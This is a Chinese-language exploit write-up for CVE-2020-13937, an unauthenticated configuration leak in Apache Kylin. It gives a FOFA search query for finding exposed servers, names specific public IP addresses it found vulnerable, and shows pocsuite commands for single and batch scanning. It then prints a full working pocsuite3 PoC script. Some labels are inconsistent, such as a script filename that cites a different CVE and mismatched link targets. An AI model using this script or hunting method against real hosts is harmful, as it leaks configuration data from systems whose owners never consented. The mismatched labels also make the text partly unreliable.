  

# CVE-2020-13937

##   1.漏洞描述：

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息。

##  2.环境搭建 

fofa语句：app="APACHE-kylin"

##  3.漏洞复现 

fofa查询

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29412931/1665919245314-a33f4e2d-363a-4c07-bbcd-a38f154c7ed0.png)

输入url/kylin/api/admin/config确认漏洞，burp抓包对比

47.104.74.14:7070   有

1.14.58.74:7070        有

39.96.164.215:7070 无

有漏洞对比

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29412931/1665919511193-cb33c851-cb6a-4bb4-ae73-02a2a35f84b7.png)

无漏洞对比

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29412931/1665919564425-e0262b83-8393-49c6-986e-202488741f8b.png)

编写poc

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29412931/1665919680962-9e85a9e7-1630-4ea1-a269-579274de5568.png)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29412931/1665919738855-670f720e-eb08-4e72-8cb6-bc9eccc17303.png)

验证正确单个url ：pocsuite -r CVE-2022-26134.py -u [http://47.104.74.14:7070](http://1.14.58.74:7070/)

![9d7afddb5a30145c9f5b00acc6e462f.jpg](https://cdn.nlark.com/yuque/0/2022/jpeg/29412931/1665917846398-6aa8c7f6-18ea-4afa-886f-cb238d4e1c7a.jpeg)

验证错误单个url：pocsuite -r CVE-2022-26134.py -u [http://39.96.164.215:7070](http://1.14.58.74:7070/)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29412931/1665921356098-35bd31d9-d1e6-4969-abd6-ea0825665492.png)

批量扫描：pocsuite -r CVE-2022-26134.py -u url.txt

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29412931/1665921715832-5db37f22-25fa-4a09-8b6e-8693086228bf.png)

##  4.脚本代码 

```python
from collections import OrderedDict
from pocsuite3.api import (
    Output,
    POCBase,
    POC_CATEGORY,
    register_poc,
    requests,
    VUL_TYPE,
    get_listener_ip,
    get_listener_port,
)
from pocsuite3.lib.core.interpreter_option import (
    OptString,
    OptDict,
    OptIP,
    OptPort,
    OptBool,
    OptInteger,
    OptFloat,
    OptItems,
)
from pocsuite3.modules.listener import REVERSE_PAYLOAD

# 以上就是各种导入模块而已 , 有的用了 , 有的灰色的就是没有使用模块中的内容

class DemoPOC(POCBase):
    vulID = "1571"  # ssvid ID 如果是提交漏洞的同时提交 PoC,则写成 0
    version = "1"  # 默认为1
    author = "kailing0220"  # PoC作者的大名
    vulDate = "2014-10-16"  # 漏洞公开的时间,不知道就写今天
    createDate = "2014-10-16"  # 编写 PoC 的日期
    updateDate = "2014-10-16"  # PoC 更新的时间,默认和编写时间一样
    references = ["http://wiki.peiqi.tech/wiki/webserver/Apache/Apache%20Kylin%20config%20%E6%9C%AA%E6%8E%88%E6%9D%83%E9%85%8D%E7%BD%AE%E6%B3%84%E9%9C%B2%20CVE-2020-13937.html"]  # 漏洞地址来源,0day不用写
    name = "CVE-2020-13937 PoC"  # PoC 名称
    appPowerLink = "http://wiki.peiqi.tech/wiki/webserver/Apache/Apache%20Kylin%20config%20%E6%9C%AA%E6%8E%88%E6%9D%83%E9%85%8D%E7%BD%AE%E6%B3%84%E9%9C%B2%20CVE-2020-13937.html"  # 漏洞厂商主页地址
    appName = "CVE-2020-13937"  # 漏洞应用名称
    appVersion = "all"  # 漏洞影响版本
    vulType = VUL_TYPE.UNAUTHORIZED_ACCESS  # 漏洞类型,类型参考见 漏洞类型规范表
    category = POC_CATEGORY.EXPLOITS.WEBAPP
    samples = []  # 测试样列,就是用 PoC 测试成功的网站
    install_requires = []  # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
    desc = """
            Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息。
        """  # 漏洞简要描述
    pocDesc = """
            poc的用法描述
        """  # POC用法描述
    # 各种变量的定义 , 关于poc的描述

    def _check(self):
        # 漏洞验证代码
        headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}

        result = []
        # 一个异常处理 , 生怕站点关闭了 , 请求不到 , 代码报错不能运行
        try:
            url = self.url.strip() + "/kylin/api/admin/config"  # self.url 就是你指定的-u 参数的值
            res = requests.get(url=url, headers=headers, verify=False, allow_redirects=False, timeout=9)
            # 判断是否存在漏洞
            if res.status_code == 200 and 'config' in res.text:
                result.append(url)
        except Exception as e:
            print(e)
        # 跟 try ... except是一对的 , 最终一定会执行里面的代码 , 不管你是否报错
        finally:
            return result

    def _verify(self):
        # 验证模式 , 调用检查代码 ,
        result = {}
        res = self._check()  # res就是返回的结果列表
        if res:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['Info'] = self.name
            result['VerifyInfo']['vul_url'] = self.url
            result['VerifyInfo']['vul_detail'] = self.desc
        return self.parse_verify(result)

    def _attack(self):
        # 攻击模式 , 就是在调用验证模式
        return self._verify()

    def parse_verify(self, result):
        # 解析认证 , 输出
        output = Output(self)
        # 根据result的bool值判断是否有漏洞
        if result:
            output.success(result)
        else:
            output.fail('Target is not vulnerable')
        return output


def other_fuc():
    pass


def other_utils_func():
    pass


# 注册 DemoPOC 类
register_poc(DemoPOC)
```

